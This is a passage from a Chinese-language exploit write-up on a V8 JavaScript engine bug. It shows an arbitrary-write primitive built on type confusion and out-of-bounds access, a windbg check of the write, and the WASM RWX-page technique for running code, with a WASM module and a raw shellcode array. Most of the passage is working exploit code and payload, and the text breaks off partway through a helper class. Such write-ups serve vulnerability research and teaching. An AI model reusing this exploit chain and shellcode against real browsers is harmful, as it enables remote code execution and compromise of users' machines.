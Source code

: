 ```
 
function arb_write(addr, val) {
if (addr %2n == 0) {
addr += 1n;
}
// 2n << 32n是为了填充length字段，在指针压缩下length的值会被改为0x1；
// -8n是因为elements字段指向的内容会自动+8来跳过map和length
point_array[1] = helper.i2f((2n << 32n) + addr -8n);
fake[0] = helper.i2f(BigInt(val));
}
 
function exp() {
helper = new Helpers();
 
confusion_to_oob();
get_arw();
 
arb_write(addrof(oob_array), 0xFFFFFFFFFFFFFFFn);
%SystemBreak();
}
 
exp();

```

在`windbg`里面看一下，发现目标地址的值已经被成功修改了  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210728201001.png)

任意代码执行
------

这一步还是常规的 WASM 实现任意代码执行：

1.  创建一个`wasm`函数对象，`wasm`本身只能进行诸如数学运算这样的操作，所以随便创建一个就行。
2.  通过地址泄露原语找到`wasm`自带的`RWX`属性页及`wasm`函数最终会调用的汇编代码（`wasmInstance.exports.main -> shared_info -> data -> instance+XX`）。
3.  通过任意地址读写原语修改`wasm`所在内存页，换上我们准备好的`shellcode`。
4.  调用`wasm`函数接口，执行`shellcode`。  
    具体实现如下：

```
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var wasm_function = wasm_instance.exports.main;
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
 
let arb_write_buffer = new ArrayBuffer(0x300);
 
// 用来实现类型转换
class Helpers {
constructor() {
this.buf =new ArrayBuffer(16);
this.uint32 = new Uint32Array(this.buf);
this.float64 = new Float64Array(this.buf);
```